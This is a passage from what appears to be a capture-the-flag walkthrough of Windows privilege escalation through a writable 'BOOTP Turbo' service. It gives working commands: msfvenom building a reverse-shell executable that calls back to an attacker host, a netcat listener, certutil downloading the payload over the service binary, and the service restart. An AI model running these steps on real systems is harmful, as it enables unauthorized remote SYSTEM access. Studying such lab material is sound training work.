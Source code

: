 After the distraction from Grafana, the box creator was merciful on the privilege escalation: there is a service `BOOTP Turbo` that we are able to change the binaries and stop/start the service

## 5.2. Getting a SYSTEM-level shell

Generate another reverse shell executable and and place in web server root:

(Apache2 is already running with DocumentRoot at /var/www/html)

```console
┌──(root㉿kali)-[~]
└─# msfvenom -p windows/x64/shell_reverse_tcp LHOST=kali.vx LPORT=4445 -f exe -o /var/www/html/reverse2.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: /var/www/html/reverse2.exe
```

Open another console window on Kali to listen for connections:

```console
┌──(root㉿kali)-[~]
└─$ nc -nlvp 4445
listening on [any] 4445 ...
```

On the reverse shell session:
- Rename the existing `BOOTP Turbo` binaries
- Download the second reverse shell executable

```cmd
c:\windows\system32\inetsrv>ren "C:\Program Files\BOOTP Turbo\bootpt.exe" bootpt.exe.bak
ren "C:\Program Files\BOOTP Turbo\bootpt.exe" bootpt.exe.bak

c:\windows\system32\inetsrv>certutil.exe /urlcache /f /split http://kali.vx/reverse2.exe "C:\Program Files\BOOTP Turbo\bootpt.exe"
certutil.exe /urlcache /f /split http://kali.vx/reverse2.exe "C:\Program Files\BOOTP Turbo\bootpt.exe"
****  Online  ****
  0000  ...
  1c00
CertUtil: -URLCache command completed successfully.

c:\windows\system32\inetsrv>sc stop "BOOTP Turbo"
sc stop "BOOTP Turbo"

SERVICE_NAME: BOOTP Turbo
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 1  STOPPED
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0

c:\windows\system32\inetsrv>sc start "BOOTP Turbo"
sc start "BOOTP Turbo"
[SC] StartService FAILED 1053:

The service did not respond to the start or control request in a timely fashion.
```
